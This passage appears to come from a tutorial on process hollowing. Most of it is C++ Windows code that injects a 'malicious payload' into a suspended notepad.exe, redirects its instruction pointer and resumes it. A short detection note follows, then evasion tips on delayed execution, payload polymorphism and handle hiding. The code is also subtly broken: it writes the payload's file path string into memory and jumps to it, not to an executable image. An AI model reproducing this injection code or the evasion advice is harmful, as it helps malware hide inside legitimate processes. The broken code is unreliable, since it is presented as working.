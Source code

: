 ```cpp
    context.ContextFlags = CONTEXT_FULL;
    GetThreadContext(processInfo.hThread, &context);

    // Step 3: Replace the process image with the malicious payload
    LPVOID remoteMemory = VirtualAllocEx(processInfo.hProcess, NULL, 4096, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(processInfo.hProcess, remoteMemory, maliciousPayloadPath, strlen(maliciousPayloadPath) + 1, NULL);

    // Step 4: Update the EIP (instruction pointer) to point to the new payload
    context.Eip = (DWORD)remoteMemory;
    SetThreadContext(processInfo.hThread, &context);

    // Step 5: Resume the process
    ResumeThread(processInfo.hThread);

    // Cleanup
    CloseHandle(processInfo.hThread);
    CloseHandle(processInfo.hProcess);

    return 0;
}

int main() {
    const char* targetProcess = "C:\\Windows\\System32\\notepad.exe";  // Legitimate process to hollow
    const char* payload = "C:\\path\\to\\malicious_payload.exe";  // Malicious payload

    if (HollowProcess(targetProcess, payload) == 0) {
        std::cout << "Process hollowing successful!" << std::endl;
    } else {
        std::cerr << "Process hollowing failed!" << std::endl;
    }

    return 0;
}
```

#### Detection Mechanisms
Security software can detect process hollowing by monitoring for processes that change their memory contents after being started. Additionally, unusual behavior, such as loading an executable file that doesn’t match the process name, can raise flags.

#### Evasion Techniques
- Delayed Execution: Introduce time delays or use specific triggers (like certain files being opened) to delay the malicious code execution.
- Code Polymorphism: Modify the malicious payload each time it is executed to prevent pattern-based detection.
- Handle Hiding: Close handles or use low-level API calls (like `NtUnmapViewOfSection`) to reduce visibility of the manipulation.
